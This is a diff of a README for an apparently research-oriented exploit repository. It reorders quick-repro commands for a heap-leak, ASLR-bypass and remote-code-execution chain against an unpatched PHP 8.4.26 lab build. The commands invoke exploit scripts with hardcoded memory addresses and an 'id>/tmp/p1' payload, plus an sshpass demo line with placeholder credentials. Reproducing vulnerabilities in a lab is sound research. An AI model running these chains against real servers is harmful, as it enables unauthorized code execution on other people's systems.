

Before and after one commit to 0xh34z/php2shell-bypass-aslr-exp, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
reorder quick repro: display_errors=0 chain first

````diff
--- a/README.md
+++ b/README.md
@@ -11,25 +11,20 @@ mod_php + PHP 8.4.26（官方源码自编译、未打补丁）的一组漏洞复
 `127.0.0.1:8088`。no-ASLR 地址与各阶段偏移绑定本实验构建，换环境需重新校准。
 
 ```bash
-# 1) no-ASLR 纯 HTTP RCE（需 display_errors=On，两个请求）
-python3 tools/send_a_ps.py 17 19 3 12
-python3 tools/send_b_rce2.py 7 2 0x7ffff5e6e0d8 0x7ffff7d13490 "id>/tmp/p1"
+# 0) display_errors=0 一键链（只校验 display_errors=0，绝不修改配置；输出 chunk base）
+#    sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_de0_leak.sh'
 
-# 2) ASLR-on 全链（堆泄漏 → libphp 泄漏 → zif_system，含纯 HTTP 轮换）
-CMD="id>/tmp/p1" bash tools/pure_aslr_run.sh
-
-# 0) 一键录像 demo：ASLR 证明 + 全链 + 泄漏值/maps 交叉验证
-#    （在目标机执行；脚本已部署为 ~/demo_aslr_video.sh）
-# sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_aslr_video.sh'
-
-# 3) display_errors=0 堆泄漏（需 gdb；A-only 与 A+B forge）
+# 1) display_errors=0 手动分步（需 gdb；A-only 与 A+B forge）
 ./tools/trial_bins.sh 0 62 235 15000 208 0 4000 103
 BN=160 BVL=231 BB1_LEN=1048551 BF_P1=256 BF_READ=4000 \
   ./tools/trial_ab.sh 0 62 235 15000 208 0 4000 103
 
-# 4) display_errors=0 一键链（只校验 display_errors=0，绝不修改配置；输出 chunk base）
-#    sshpass -p '<LAB_PASSWORD>' ssh -t <LAB_USER>@<LAB_HOST> 'bash ~/demo_de0_leak.sh'
+# 2) no-ASLR 纯 HTTP RCE（需 display_errors=On，两个请求）
+python3 tools/send_a_ps.py 17 19 3 12
+python3 tools/send_b_rce2.py 7 2 0x7ffff5e6e0d8 0x7ffff7d13490 "id>/tmp/p1"
 
+# 3) ASLR-on 全链（需 display_errors=On；demo_aslr_video.sh 会临时设置并恢复）
+CMD="id>/tmp/p1" bash tools/pure_aslr_run.sh
 ```
 
 > 步骤 3 的 `trial_*.sh` 会重启本机 Apache 并挂 gdb，仅用于校准/取证；
````
